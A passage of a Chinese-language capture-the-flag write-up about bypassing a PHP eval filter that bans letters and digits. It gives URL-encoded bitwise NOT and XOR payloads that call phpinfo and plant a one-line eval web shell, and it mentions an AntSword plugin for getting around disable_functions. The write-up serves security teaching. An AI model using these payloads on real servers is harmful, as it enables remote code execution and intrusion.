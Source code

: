 > > > > > > *   很简单的代码，过滤规则很简单，长度小于40，并且不能虽然数字和大小写字母。并且最终目的是用`eval`执行PHP代码。
> > > > > >     
> > > > > >     
> > > > > > *   知识点一，取反或异或绕过正则匹配。也就是生成我们所需字母和数字。可以[看看这个](https://blog.csdn.net/mochu7777777/article/details/104631142)。
> > > > > >     
> > > > > >     
> > > > > >     
> > > > > >     ```
> > > > > >     取反     (~%8F%97%8F%96%91%99%90)();
> > > > > >     异或     ${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo 
> > > > > >     ```
> > > > > >     
> > > > > >     
> > > > > > *   两种方法都能达到执行`phpinfo`函数的目的，其中取反是直接用的phpinfo，而异或是创建了一个get传参。
> > > > > >     
> > > > > >     
> > > > > > *   flag不在php环境变量里，没有发现明显的flag文件，那只能去根目录寻找，所以写一句话木马。但是`disable_functions`禁用了很多命令执行函数，所以接下来的思路就是绕过它。
> > > > > >     
> > > > > >     
> > > > > > *   一句话木马
> > > > > >     
> > > > > >     
> > > > > >     
> > > > > >     ```
> > > > > >     取反    连接密码：a
> > > > > >       (~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%DD%9E%DD%A2%D6%D6);
> > > > > >     异或    连接密码：a
> > > > > >       ${%fe%fe%fe%fe^%a1%b9%bb%aa}[_](${%fe%fe%fe%fe^%a1%b9%bb%aa}[__]);&_=assert&__=eval($_POST[%27a%27]) 
> > > > > >     ```
> > > > > >     
> > > > > >     
> > > > > > *   方法一就是直接用蚁剑的插件绕过，找到根目录下的`readflag`文件并读取它，这似乎是非预期。
> > > > > >     ![在这里插入图片描述](img/0e009a3a427dd655885ebbdc12f1040d.png)
> > > > > >     
> > > > > >     
> > > > > > 